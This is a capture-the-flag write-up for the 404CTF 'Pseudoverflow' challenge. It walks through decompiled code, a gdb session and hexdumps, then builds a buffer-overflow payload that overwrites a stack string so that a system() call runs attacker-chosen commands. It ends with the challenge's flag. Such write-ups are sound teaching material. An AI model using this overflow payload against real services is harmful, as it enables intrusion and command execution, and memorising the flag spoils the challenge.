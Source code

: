 ```yaml
---
layout: Post
type: chall
---
```

# Pseudoverflow ⚪

<a class="back-link" href="../../">< Go back</a>

## Description

Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt

Connexion :
`nc challenges.404ctf.fr 31958`

all files in [resources/](./resources) were provided.

## Challenge

### Recon

I first tried debugging the application using binary ninja (Free) but ended up going to gdb as it's easier to play with long inputs (you can run `shell python` for example)

Let's first just look at the decompiled code (High Level IL) of the program and get a general idea of what we can exploit:

```c
int64_t win(char* arg1)
    return system(line: arg1)

int32_t main(int32_t argc, char** argv, char** envp)
    setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
    setvbuf(fp: __bss_start, buf: nullptr, mode: 2, size: 0)
    setvbuf(fp: stderr, buf: nullptr, mode: 2, size: 0)
    int32_t var_e
    __builtin_strcpy(dest: &var_e, src: "perds")
    puts(str: &data_2008)
    void buf
    fgets(buf: &buf, n: 0x100, fp: stdin)
    if (strcmp(&var_e, "gagne") != 0)
        puts(str: "Nous vous recontacterons dans le…")
    else
        win(&buf)
    return 0
```

As we can see, our objective is to call `win()` which takes an argument and executes it using `system()` this is pretty much a revshell.

To be able to call `win()` we first have to match `&var_e` to `"gagne"` as they get `strcmp()`, though we cannot modify `&var_e` directly and it's set to `"perds"`.

We can only interact with `buf` which is the buffer we write to from `fgets()` with a maximum of 256 chars.

Okay let's go into gdb now.

```bash
gdb ./resources/course
(gdb) disas main
# [...]
# 0x0000555555555225 <+145>:   call   0x555555555050 <fgets@plt>
# 0x000055555555522a <+150>:   lea    -0x6(%rbp),%rax
# [...]
# 0x0000555555555238 <+164>:   mov    %rax,%rdi
# 0x000055555555523b <+167>:   call   0x555555555060 <strcmp@plt>
# [...]
(gdb) br *main+145
(gdb) br *main+150
(gdb) br *main+164
```

These 3 breakpoints this will help us keep up with the flow of the program easily, we are monitoring before and after the `fgets` call, and before the `strcmp` call.

Let's also setup some basic `xxd` to view the raw memory as we are probably going to have to deal with buffer overflows (I got this trick from this [stackoverflow post](https://stackoverflow.com/a/9234007/14578266)):

```bash
(gdb) define xxd
>dump binary memory dump.bin $arg0 $arg0+$arg1
>shell xxd dump.bin
>end
# USAGE: xxd <obj> <size>
# i.e.:  xxd $rax  200
```

Okay let's start.

```bash
(gdb) r
# Bienvenue à la course annuelle du 404CTF!!
# Pour pouvoir participer, nous avons besoin de votre pseudo :

# Breakpoint 1, 0x0000555555555225 in main ()
(gdb) c
# Continuing.
AAAA               # <---------- Our input

# Breakpoint 2, 0x000055555555522a in main ()
(gdb) xxd $rax 170
# 00000000: 4141 4141 0a00 0000 4000 0000 0000 0000  AAAA....@.......
# 00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000050: 0000 0000 0000 0000 0069 fef7 ff7f 0000  .........i......
# 00000060: 0000 0000 0000 0000 b0da 7065 7264 7300  ..........perds.
# 00000070: 0100 0000 0000 0000 ca06 dff7 ff7f 0000  ................
# 00000080: 20de ffff ff7f 0000 9451 5555 5555 0000   ........QUUUU..
# 00000090: 4040 5555 0100 0000 38de ffff ff7f 0000  @@UU....8.......
# 000000a0: 38de ffff ff7f 0000 104f                 8........O
```

In this hexdump we see that there is a `"perds"` string at `$rax+0x6b` this is probably `&var_e`.

### Creating the payload

Okay so we have to create a payload that will pad `106` characters (`0x6b - 1`) and then write `"gagne"` over the `"perds"`. Then on top of that we need to have our shell payload at the start.

```bash
(gdb) shell python -c 'import os; os.write(1, b"/bin/ls\x00" + b"A" * 98 + b"gagne\x00\x0a")' > payload.bin
```

Let's break this down, here is the hexdump of the payload

```
00000000: 2f62 696e 2f6c 7300 4141 4141 4141 4141  /bin/ls.AAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000060: 4141 4141 4141 4141 4141 6761 676e 6500  AAAAAAAAAAgagne.
00000070: 0a                                       .
```

Let's break this down.

- As you can see we start with our shell command `/bin/ls`
- then a null byte `\x00` to "finish" that buffer in the eyes of `strcmp()`
- then our `AAAA` padding
- then at exactly `+0x6b` our string `"gagne"`
- then another null byte `\x00`
- finally a line break `\x0a` (This is because stdin is in line buffered mode)

If we run that in gdb:

```bash
(gdb) r < payload.bin
# Bienvenue à la course annuelle du 404CTF!!
# Pour pouvoir participer, nous avons besoin de votre pseudo :

# Breakpoint 1, 0x0000555555555225 in main ()
(gdb) c
# Continuing.

# Breakpoint 2, 0x000055555555522a in main ()
(gdb) c
# Continuing.

# Breakpoint 3, 0x0000555555555238 in main ()
(gdb) c
# Continuing.
# [Detaching after vfork from child process 260556]
# course  dump.bin  payload.bin
```

And we got our `ls`, let's do the same now but trough netcat to the actual challenge binary that has the flag.

For this I adapted the appraoch to a python script [pwn_nc.py](./pwn_nc.py) (From `ls` we learn that there is a `flag.txt` file)

```bash
python3 pwn_nc.py
# [*] Payload: b'/bin/cat flag.txt\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne\x00\n'
# [+] Opening connection to challenges.404ctf.fr on port 31958: Done
# Bienvenue à la course annuelle du 404CTF!!

# Pour pouvoir participer, nous avons besoin de votre pseudo :

# [+] Receiving all data: Done (16B)
# [*] Closed connection to challenges.404ctf.fr port 31958
# b'404CTF{0v3rfl0w}'
```

Flag: `404CTF{0v3rfl0w}`
